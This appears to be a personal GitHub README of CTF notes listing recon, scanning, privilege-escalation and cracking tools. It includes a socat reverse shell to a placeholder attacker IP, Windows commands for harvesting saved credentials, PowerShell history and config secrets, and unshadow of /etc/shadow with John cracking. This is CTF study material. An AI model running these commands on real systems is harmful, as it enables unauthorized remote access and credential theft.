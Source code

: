 This repo contains some miscallenious notes/tips for me to use when I do CTFs. Mostly contains list of tools

## Ivestigation

### SSL/TLS Certificates

[Certificate search](https://crt.sh)  
Find certificates by certificate hash, domain name or organization name

NsLookup  
Tool to lookup DNS records

[DNSDumpster](https://dnsdumpster.com)  
Tool for subdomain enumeration.

[Shodan](https://shodan.io)  
Search Engine for Internet connected devices

### Identifying technologies

[OWASP favicon database](https://wiki.owasp.org/index.php/OWASP_favicon_database) - Use favicon md5-sums to find the framework

Wappalyzer - Browser plugin that (I assume) reads HTTP-headers and identifies underlying technologies

[Sublist3r](https://github.com/aboul3la/Sublist3r)  
Subdomain enumerator that uses OSINT

## Enumeration/Scanning

nmap  
Search for open ports in a machine. Automatically look for exploits for the software running in the ports 

Rustscan    
Same as nmap but faster

### Content discovery

[Fuzz Faster u Fool](https://github.com/ffuf/ffuf)  
Find direcotries/VHosts in a website. Can also be used to fuzz GET parameter 

[Gobuster](https://github.com/OJ/gobuster)  
Find directories/DNSs/VHosts in a website

[DNSRecon](https://github.com/darkoperator/dnsrecon)  
DNS Enumeration Script

## Exploiting

More stable shell

### Socat  
On the attacker machine, run the command ```socat TCP-L:<PORT> FILE:`tty`,raw,echo=0```  
On the victim machine run the command ```socat TCP:<attacker-ip>:<attacker-port> exec:"bash -li",pty,stderr,sigint,setsid,sane```

# Priv Esc

[linPEAS/winPEAS](https://github.com/carlospolop/PEASS-ng)  
Scripts that look for vulnerabilities inside the OS.

[GTFObins](https://gtfobins.github.io/)  
Curated list of Unix binaries that can be used to bypass local security restrictions in a miconfigured system.

## Windows typical spots for saved credentials

### Powershell history (from cmd)
```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```

### Saved Windows Credentials 
List the saved windows credentials 
```cmdkey /list```

Run a program with the saved credentials 
```runas /savecred /user:<user> cmd.exe```

### IIS Configs 
```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionStrin```

### Putty's Proxy sessions 
```req query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```

## Post exploit

### Unshadow tool  
Use ```unshadow passwd.txt shadow.txt > passwords.txt``` where passwd.txt contains the contents from ```/etc/passwd``` and shadow.txt ```/etc/shadow```  

### [John](https://github.com/openwall/john)
After you've used the unshadow tool, you can use ```john passwords.txt``` to bruteforce the passwords


## Misc

[CyberChef](https://gchq.github.io/CyberChef)

[WebHook Site](https://webhook.site/)
